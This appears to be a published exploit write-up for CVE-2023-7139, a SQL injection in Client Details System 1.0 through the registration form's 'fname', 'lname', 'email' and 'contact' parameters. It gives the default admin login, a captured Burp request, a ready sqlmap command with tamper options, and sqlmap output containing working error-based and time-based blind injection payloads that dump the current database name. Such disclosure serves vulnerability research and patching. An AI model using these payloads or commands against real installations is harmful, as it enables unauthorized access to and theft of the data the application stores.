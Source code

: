 # CVE-2023-7139_Client_Details_System-SQL_Injection_3
+ **Exploit Title:** CVE-2023-7139_Client_Details_System-SQL_Injection_3
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7139

## References: 
+ **CVE-2023-7139:** https://vuldb.com/?id.249142
+ https://www.cve.org/CVERecord?id=CVE-2023-7139

## Description:
Client Details System 1.0 allows SQL Injection via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Create Users and Register New User: "http://localhost/clientdetails/admin/regester.php"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/admin/regester.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 812
Content-Type: multipart/form-data; boundary=3b3b38b05bde466ba84fe94108a576e4
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/regester.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--

```

+ Use sqlmap to exploit. In sqlmap, use sequencely 'fname', 'lname', 'email' and 'contact' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p fname --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART fname ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: --3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test'||(SELECT 0x63477861 WHERE 3950=3950 AND (SELECT 4777 FROM(SELECT COUNT(*),CONCAT(0x717a7a7071,(SELECT (ELT(4777=4777,1))),0x71767a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: --3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test'||(SELECT 0x495a4858 WHERE 5047=5047 AND (SELECT 3063 FROM (SELECT(SLEEP(5)))fSuo))||'
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--
---
[17:19:33] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:19:34] [INFO] fetching current database
[17:19:34] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/ae5ce05b-ed9f-4e6b-a137-4b19fdf07850)
